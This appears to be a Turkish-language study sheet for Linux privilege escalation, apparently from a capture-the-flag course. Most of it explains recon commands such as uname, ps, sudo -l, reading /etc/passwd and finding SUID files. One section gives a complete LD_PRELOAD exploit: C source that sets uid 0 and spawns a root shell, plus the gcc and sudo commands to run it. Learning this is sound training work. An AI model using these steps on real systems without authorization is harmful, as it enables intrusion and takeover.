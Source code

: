 
```bash
hostname
```
Komut hostname hedef makinenin ana bilgisayar adını döndürecektir. Bu değer kolayca değiştirilebilse veya nispeten anlamsız bir dizeye sahip olsa da (örneğin Ubuntu-3487340239), bazı durumlarda hedef sistemin kurumsal ağ içindeki rolü hakkında bilgi sağlayabilir (örneğin bir üretim SQL sunucusu için SQL-PROD-01).
---

```bash
uname -a
```
Sistem tarafından kullanılan çekirdek hakkında bize ek ayrıntılar veren sistem bilgilerini yazdıracaktır. Bu, ayrıcalık artışına yol açabilecek olası çekirdek güvenlik açıklarını ararken faydalı olacaktır.

---

```bash
cat /proc/version
```
Proc dosya sistemi (procfs), hedef sistem süreçleri hakkında bilgi sağlar. Proc'u birçok farklı Linux sürümünde bulabilirsiniz, bu da onu cephaneliğinizde bulundurmanız gereken önemli bir araç haline getirir.

Bakmak /proc/versionsize çekirdek sürümü ve derleyicinin (örneğin GCC) yüklü olup olmadığı gibi ek veriler hakkında bilgi verebilir.
---
```bash
cat /etc/issue
```
Sistemler ayrıca dosyaya bakılarak da tanımlanabilir /etc/issue. Bu dosya genellikle işletim sistemi hakkında bazı bilgiler içerir ancak kolayca özelleştirilebilir veya değiştirilebilir. Konu açılmışken, sistem bilgisi içeren herhangi bir dosya özelleştirilebilir veya değiştirilebilir. Sistem hakkında daha net bir anlayış için, bunların hepsine bakmak her zaman iyidir.
---

ps Komutu
Komut, Linuxps  sisteminde çalışan işlemleri görmenin etkili bir yoludur .  Terminalinize yazdığınızda geçerli kabuk için işlemler gösterilecektir. ps

(İşlem Durumu) çıktısı ps aşağıdakileri gösterecektir;

- PID: İşlem kimliği (işleme özgü)
- TTY: Kullanıcı tarafından kullanılan terminal türü
- Zaman: İşlem tarafından kullanılan CPU zamanı miktarı (bu, işlemin çalıştığı zaman DEĞİLDİR)
- CMD: Çalışan komut veya yürütülebilir dosya (herhangi bir komut satırı parametresini görüntülemez)
“ps” komutu birkaç yararlı seçenek sunar.

- ps -A: Çalışan tüm işlemleri görüntüle
- ps axjfps axjf: İşlem ağacını görüntüle ( aşağıda çalıştırılana kadar ağaç oluşumunu görün )
- ps aux: Bu aux seçenek tüm kullanıcılar için işlemleri gösterecek (a), işlemi başlatan kullanıcıyı gösterecek (u) ve bir terminale bağlı olmayan işlemleri gösterecektir (x). ps aux komut çıktısına baktığımızda sistem ve olası güvenlik açıkları hakkında daha iyi bir anlayışa sahip olabiliriz.

```bash
ps aux
```
---
Env variables
![image](https://github.com/user-attachments/assets/ea6b8963-10a4-4940-9c0b-0621abda5a43)

```bash
env
```
PATH değişkeni, hedef sistemde kod çalıştırmak veya ayrıcalık yükseltme için kullanılabilecek bir derleyiciye veya betik diline (örneğin Python) sahip olabilir.


---

```bash
sudo -l
```
Çıktıda LD_PRELOAD ortam değişkeni varsa bunu aşağıda sudo yetkileri ile kullanabiliriz 

mesela çıktıda :
```bash
env_keep+=LD_PRELOAD 
(root) NOPASSWD: /usr/bin/nmap 
```
bunu bulursak 
bir dosya içine aşağıdaki yada kendi shelimiz ne ise onu kullanabiliriz örn:

``` c++
#include <sys/types.h> #include <stdlib.h>
void _init() { unsetenv("LD_PRELOAD");
setgid(0);
setuid(0); system("/bin/bash");
}
#include <stdio.h>
```
shell.c olarak kaydettik 

```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles 
# daha sonra
sudo LD_PRELOAD=/tmp/shell.so nmap
```
burası bizi root'a götürücek 
 
```bash
whoami
#root
```

Hedef sistem, kullanıcıların bazı (veya tüm) komutları kök ayrıcalıklarıyla çalıştırmasına izin verecek şekilde yapılandırılabilir. sudo -l Komut, kullanıcınızın . kullanarak çalıştırabileceği tüm komutları listelemek için kullanılabilir sudo.

---

İD
Komut, id kullanıcının ayrıcalık düzeyi ve grup üyelikleri hakkında genel bir bakış sağlayacaktır.
```bash
id
```
id Aşağıda görüldüğü gibi komutun başka bir kullanıcı için de aynı bilgiyi almak amacıyla kullanılabileceğini hatırlatmakta fayda var .

---

```bash
cat /etc/passwd
```
veya 
 Başka bir yaklaşım da "home" için grep yapmak olabilir, çünkü gerçek kullanıcıların klasörleri büyük ihtimalle "home" dizini altında olacaktır.
Dosyayı okumak /etc/passwd sistemdeki kullanıcıları keşfetmenin kolay bir yolu olabilir.

```bash
cat /etc/passwd | grep home
```
---

``` bash
history
```
Komutla ilgili daha önceki komutlara bakmak  history bize hedef sistem hakkında fikir verebilir ve nadiren de olsa şifreler veya kullanıcı adları gibi saklanmış bilgiler içerebilir.

---

netstat
Mevcut arayüzler ve ağ rotaları için ilk kontrolün ardından, mevcut iletişimlere bakmakta fayda vardır. netstatKomut, mevcut bağlantılar hakkında bilgi toplamak için birkaç farklı seçenekle birlikte kullanılabilir.

``` bash
netstat
```

netstat -a: tüm dinleme portlarını ve kurulan bağlantıları gösterir.
netstat -atveya sırasıyla TCP veya UDP protokollerini netstat -aulistelemek için de kullanılabilir .
netstat -l: “dinleme” modunda portları listeler. Bu portlar açıktır ve gelen bağlantıları kabul etmeye hazırdır. Bu, yalnızca TCP protokolünü (aşağıda) kullanarak dinleyen portları listelemek için “t” seçeneğiyle kullanılabilir

---
Komutu bul
Hedef sistemde önemli bilgiler ve potansiyel ayrıcalık yükseltme vektörleri aramak verimli olabilir. Dahili "find" komutu kullanışlıdır ve cephaneliğinizde bulundurmaya değer.

Aşağıda “find” komutu için bazı yararlı örnekler verilmiştir.
hataları "/dev/null"a yönlendirmek ve daha temiz bir çıktı elde etmek için "find" komutunu "-type f 2>/dev/null" ile kullanmak akıllıca olacaktır 
Dosyaları bul:
- find / -writable -type d 2>/dev/null 
- find . -name flag1.txt: geçerli dizinde “flag1.txt” adlı dosyayı bulun
- find /home -name flag1.txt: /home dizinindeki “flag1.txt” dosya adlarını bulun
- find / -type d -name config: “/” altında config adlı dizini bulun
- find / -type f -perm 0777: 777 izinlerine sahip dosyaları bul (tüm kullanıcılar tarafından okunabilir, yazılabilir ve çalıştırılabilir dosyalar)
- find / -perm a=x: çalıştırılabilir dosyaları bul
- find /home -user frank: “frank” kullanıcısına ait tüm dosyaları “/home” altında bul
- find / -mtime 10: Son 10 günde değiştirilen dosyaları bul
- find / -atime 10: Son 10 günde erişilen dosyaları bul
- find / -cmin -60: Son bir saat (60 dakika) içinde değiştirilen dosyaları bul
- find / -amin -60: Son bir saat (60 dakika) içinde erişilen dosyaları bul
- find / -size 50M: 50 MB boyutundaki dosyaları bul
Bu komut, belirtilen boyuttan daha büyük veya daha küçük bir dosyayı belirtmek için (+) ve (-) işaretleriyle birlikte de kullanılabilir.

``` bash
find . -name flag1.txt
```
Dosyayı geçerli kullanıcıdan daha yüksek bir ayrıcalık seviyesiyle çalıştırmamızı sağlayan SUID bitine sahip dosyaları bulun.
``` bash
find / -perm -u=s -type f 2>/dev/null
```
---








